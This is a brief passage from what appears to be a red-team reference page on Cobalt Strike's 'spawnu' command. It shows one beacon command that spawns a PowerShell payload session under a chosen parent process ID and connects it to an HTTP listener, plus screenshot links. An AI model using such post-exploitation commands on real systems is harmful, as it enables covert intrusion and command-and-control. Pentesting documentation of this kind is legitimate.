 ![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-52-16.png>)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-57-30.png>)

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-57-25.png>)
